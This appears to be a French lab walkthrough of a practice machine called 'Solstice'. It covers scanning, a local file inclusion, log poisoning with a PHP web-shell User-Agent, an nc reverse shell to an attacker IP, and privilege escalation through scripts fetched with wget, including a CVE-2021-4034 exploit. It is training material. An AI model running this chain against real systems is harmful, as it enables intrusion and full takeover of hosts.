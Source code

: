 # Solstice

    sudo nmap -p -sV 192.168.204.72
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.204.72 --tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.204.72
    feroxbuster --silent -u http://192.168.204.72

Scans classiques. 

    21/tcp    open  ftp        pyftpdlib 1.5.6
    22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    25/tcp    open  smtp       Exim smtpd
    80/tcp    open  http       Apache httpd 2.4.38 ((Debian))
    2121/tcp  open  ftp        pyftpdlib 1.5.6
    3128/tcp  open  http-proxy Squid http proxy 4.6
    8593/tcp  open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
    54787/tcp open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
    62524/tcp open  tcpwrapped
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

J'ai essayé de me connecter en mode anonyme sur les deux ports FTP. Le premier a refusé, le deuxième a accepté mais ne contient rien.

    ftp anonymous@192.168.204.72 -P 2121
 
En revanche, il y a deux autres serveurs web sur les ports 8593 et 54787. Je commence par le 8593, l'énumération ne donne rien mais l'URL http://192.168.204.72:8593/index.php?book=list peut éventuellement amener des failles de type LFI.

Et en effet cela fonctionne avec un simple essai sur /etc/passwd :

    curl http://192.168.204.72:8593/index.php?book=../../../../../etc/passwd |  grep  -v nologin

J'ai trouvé l'utilisateur Miguel mais je n'arrive pas à récupérer de clé SSH, ou de fichier intéressant plus généralement. En revanche les logs sont bien là où elles devraient être : 

    curl http://192.168.204.72:8593/index.php?book=../../../../../var/log/apache2/access.log

Par élimination, il reste donc les failles de type Log Poisoning à essayer. La manière classique avec la modification du User-Agent semble passer et nous donne bien un reverse-shell :

    curl  -A  "BACKDOOR <?php system(\$_GET['cmd'])?>" http://192.168.204.72 
    curl http://192.168.204.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=id
    curl  "http://192.168.204.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=rm%20%2Ftmp%2F  
    f%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.45.231%209001%20%3E%2Ftmp%2Ff
    cat /var/www/local.txt


Élévation de privilèges toute simple avec un CVE : 

    wget http://192.168.45.231/linpeas.sh
    chmod u+x linpeas.sh
    ./linpeas.sh | tee res.txt
    ...
    wget http://192.168.45.231/CVE-2021-4034.sh
    ./CVE-2021-4034.sh
    ls /root
    cat /root/proof.txt

